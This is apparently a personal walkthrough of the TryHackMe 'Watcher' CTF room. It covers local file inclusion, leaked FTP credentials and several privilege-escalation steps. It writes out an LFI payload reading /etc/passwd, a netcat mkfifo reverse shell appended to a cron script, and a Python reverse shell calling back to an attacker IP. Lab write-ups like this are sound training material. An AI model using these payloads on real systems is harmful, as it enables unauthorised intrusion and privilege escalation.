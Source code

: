```yaml
---
layout: post
title: Watcher
published: true
category: CTF
system: linux
walkthrough-type: thm
source: https://tryhackme.com/room/watcher
Description: A boot2root Linux machine utilising web exploits along with some common privilege escalation techniques.
tags: security, linux
---
```


# Watcher

7 flags in this room

wait 5 mins for all services to start up on the system

starting off with nmap `nmap -p- watcher.thm -vvv`

we start off running into some pretty simble LFI and can pull `/post.php?post=../../../etc/passwd` and find some users `mat` and `toby`.

scanning with gobuster reveals `robots.txt` and we can find flag 1

we can then `/post.php?post=secret_file_do_not_read.txt` and get the note for the ftp user `ftpuser:givemefiles777`

- `/post.php?post=php://filter/convert.base64-encode/resource=post.php`

this php script is just `<?php include $_GET["post"]; ?>`

inside of the secret file was a note 

```
 Hi Mat,

The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.

Will
```

So if we upload a reverse shell on the php we should be able to include it, and we get a www-data shell.

`sudo -l` we can run any command so get a toby bash, `sudo -u toby bash` and pickup the 4th flag in tobys home dir.

missed a flag so `find / -name flag_3.txt 2>/dev/null` and pick it up

Mat left us a note in tobys home dir

```
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

mat is running a script in tobys dir under his privilege, cronjob `/home/toby/jobs/cow.sh`

- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc localhost 6670 >/tmp/f" >> /home/toby/jobs/cow.sh`

we can pickup flag 5 in mats home and another note

```
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

so we can run his `will_script.py` as sudo, which lso means the whitelist of commands. So since `cat` is allowed possibly be able to read some interesting information

```
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```

this is importing cmd.py so we can overwrite it with a python shell and execute.

`echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.2.3.64',6676));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" > cmd.py`

- `sudo -u will python3 /home/mat/scripts/will_script.py cmd.py`

the hint for the last key is ssh but trying to use find doesnt seem to work and scaning through linpeas i cant find much. in `/opt/backups` we find a b64 keyfile. we can python3 webserver this over to out attacking machine decode and login as root via ssh for the last flag. `b64 -d key > root_rsa && chmod 600 root_rsa` `ssh root@watcher.thm -i root_rsa` and we win.
